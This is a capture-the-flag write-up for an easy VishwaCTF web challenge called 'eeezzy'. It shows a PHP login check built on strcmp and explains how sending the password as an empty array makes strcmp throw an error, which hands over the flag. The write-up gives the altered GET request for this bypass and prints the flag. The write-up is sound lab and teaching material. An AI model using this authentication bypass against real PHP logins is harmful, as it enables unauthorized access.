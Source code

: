 # eeezzy
- Challenge Name : eeezzy
- Difficulty :  Easy

## Challenge Description
I forgot my login details again!



## Methodology
A web instance was provided to us where we needed to get the flag. 

![image](https://user-images.githubusercontent.com/121932742/231846273-3ac014d2-50b9-4996-8bce-6185bd400f25.png)

Lets see what's given for us, like we do in our math and physics numericals.

We have two things one is login form and view source code option in the right bottom.

```
<?php  
  
    session_start();    $_SESSION['status']=null;    $flag="";  
    try {  
        if (isset($_GET['username']) && isset($_GET['password'])) {  
            if (strcmp($_GET['username'], $flag)==0 && strcmp($_GET['password'], $flag)==0)                $_SESSION['status']=$flag;  
            else                $_SESSION['status']="Invalid username or password";  
        }  
    } catch (Throwable $th) {        $_SESSION['status']=$flag;  
    }  
  
?>
```

So we have something fishy over here...

The code has stringcompare vulnerablity known as strcmp(), to identify the vulnerablity you can even use Chatgpt, by feeding the code to it and knowing the function of the code and later surfing about it on google, remeber in every challenge google and chatgpt are your bestfriends.

Find more about it here https://www.doyler.net/security-not-included/bypassing-php-strcmp-abctf2016

Now enter some random strings in User and Pwd form or can even submit [SPACE] to avoid confusions intercepting it in URL.

I intercepted the request in the login form and updated this

**GET /?username=admin&password=admin&submit=Login HTTP/2__**

To

**GET /?username=&password[]=&submit=Login HTTP/2**

for example if its challenge.com/?username=admin&password=admin&submit=Login
i changed it to challenge.com/?username=&password[]=&submit=Login

Here is the flag in the form of error

<img width="1436" alt="image" src="https://user-images.githubusercontent.com/121932742/231860272-a9c5e469-4bfa-4c24-a8d8-34b529592302.png">

**VishwaCTF{5t0p_c0mp4r1ng}**


